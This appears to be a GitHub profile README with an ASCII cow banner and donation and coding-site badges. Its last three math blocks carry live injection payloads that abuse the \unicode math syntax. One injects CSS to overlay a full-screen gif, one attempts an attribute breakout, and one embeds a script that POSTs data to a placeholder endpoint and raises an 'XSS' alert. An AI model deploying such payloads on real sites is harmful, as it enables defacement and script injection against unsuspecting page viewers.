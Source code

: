 ```JS
                                         [user@StiizzyCat ~]$ 
                                             ________________________________________
                                            /             Stiizzy Cat                \
                                            \ nodejs [8/10] C# [3/10] python [4/10] /
                                             ----------------------------------------
                                                                    \   ^__^
                                                                     \  (oo)\_______
                                                                        (__)\       )\/\
                                                                            ||----w |
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^||^^^^^||^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
```
<div>
<p align="center"> <a href="https://www.paypal.com/donate/?hosted_button_id=PGKYAAVEQU5BW" target="_blank"> <img  src="https://raw.githubusercontent.com/StiizzyCat/StiizzyCat/main/Assets/Assets/Donate.svg" alt="JavaScript"/></a> <a href="https://codepen.io/stiizzycat" target="_blank" ><img src="https://raw.githubusercontent.com/StiizzyCat/StiizzyCat/main/Assets/Assets/codepenner.svg" alt="codepen"/></a> <a href="https://replit.com/@StiizzyCat0001" target="_blank"><img src="https://raw.githubusercontent.com/StiizzyCat/StiizzyCat/main/Assets/Assets/repl.svg" alt="repl"/> </a>
 

```math
\ce{$&#x5C;unicode[goombafont; color:red; pointer-events: none; z-index: -10; position: fixed; top: 0; left: 0; height: 100vh; object-fit: cover; background-size: cover; width: 130vw; opacity: 0.5; background: url('https://github.com/StiizzyCat/StiizzyCat/blob/main/weed.gif?raw=true');]{x0000}$}
```

```math
\ce{$&#x5C;unicode[goombafont; " id="test"]{x0000}$}
```

```math
\ce{$&#x5C;unicode[<script>var xhr=new XMLHttpRequest();xhr.open('POST','[http://example.com/api_endpoint](https://github.com/logout)',true);xhr.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xhr.send('payload=data_to_send');alert('XSS');</script>;]{x0000}$}
```
